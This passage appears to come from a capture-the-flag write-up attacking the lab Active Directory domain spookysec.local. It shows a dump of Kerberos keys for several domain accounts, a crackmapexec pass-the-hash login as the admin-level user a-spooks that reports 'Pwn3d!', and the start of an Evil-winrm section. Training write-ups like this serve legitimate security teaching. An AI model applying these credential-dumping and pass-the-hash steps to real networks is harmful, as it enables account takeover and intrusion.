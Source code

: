 ```
spookysec.local\robin:aes256-cts-hmac-sha1-96:8776bd64fcfcf3800df2f958d144ef72473bd89e310d7a6574f4635ff64b40a3
spookysec.local\robin:aes128-cts-hmac-sha1-96:733bf907e518d2334437eacb9e4033c8
spookysec.local\robin:des-cbc-md5:89a7c2fe7a5b9d64
spookysec.local\paradox:aes256-cts-hmac-sha1-96:64ff474f12aae00c596c1dce0cfc9584358d13fba827081afa7ae2225a5eb9a0
spookysec.local\paradox:aes128-cts-hmac-sha1-96:f09a5214e38285327bb9a7fed1db56b8
spookysec.local\paradox:des-cbc-md5:83988983f8b34019
spookysec.local\Muirland:aes256-cts-hmac-sha1-96:81db9a8a29221c5be13333559a554389e16a80382f1bab51247b95b58b370347
spookysec.local\Muirland:aes128-cts-hmac-sha1-96:2846fc7ba29b36ff6401781bc90e1aaa
spookysec.local\Muirland:des-cbc-md5:cb8a4a3431648c86
spookysec.local\horshark:aes256-cts-hmac-sha1-96:891e3ae9c420659cafb5a6237120b50f26481b6838b3efa6a171ae84dd11c166
spookysec.local\horshark:aes128-cts-hmac-sha1-96:c6f6248b932ffd75103677a15873837c
spookysec.local\horshark:des-cbc-md5:a823497a7f4c0157
spookysec.local\svc-admin:aes256-cts-hmac-sha1-96:effa9b7dd43e1e58db9ac68a4397822b5e68f8d29647911df20b626d82863518
spookysec.local\svc-admin:aes128-cts-hmac-sha1-96:aed45e45fda7e02e0b9b0ae87030b3ff
spookysec.local\svc-admin:des-cbc-md5:2c4543ef4646ea0d
spookysec.local\backup:aes256-cts-hmac-sha1-96:23566872a9951102d116224ea4ac8943483bf0efd74d61fda15d104829412922
spookysec.local\backup:aes128-cts-hmac-sha1-96:843ddb2aec9b7c1c5c0bf971c836d197
spookysec.local\backup:des-cbc-md5:d601e9469b2f6d89
spookysec.local\a-spooks:aes256-cts-hmac-sha1-96:cfd00f7ebd5ec38a5921a408834886f40a1f40cda656f38c93477fb4f6bd1242
spookysec.local\a-spooks:aes128-cts-hmac-sha1-96:31d65c2f73fb142ddc60e0f3843e2f68
spookysec.local\a-spooks:des-cbc-md5:e09e4683ef4a4ce9
ATTACKTIVEDIREC$:aes256-cts-hmac-sha1-96:9f0654d0c1bf2848a6479d49ec676e28fadb5de619bdeeb7c3862cfbf9fad8a0
ATTACKTIVEDIREC$:aes128-cts-hmac-sha1-96:fa747d1de3b37d54d18dd13370ad252c
ATTACKTIVEDIREC$:des-cbc-md5:1625a7264c8a32b6
[*] Cleaning up...
```


#### Validation user a-spooks

```
❯ crackmapexec smb spookysec.local -u "a-spooks" -H "0e0363213e37b94221497260b0bcb4fc"
SMB         10.10.28.119   445    ATTACKTIVEDIREC  [*] Windows 10.0 Build 17763 x64 (name:ATTACKTIVEDIREC) (domain:spookysec.local) (signing:True) (SMBv1:False)
SMB         10.10.28.119   445    ATTACKTIVEDIREC  [+] spookysec.local\a-spooks 0e0363213e37b94221497260b0bcb4fc (Pwn3d!)

```

-----

## Evil-winrm
Evil-winrm installation.
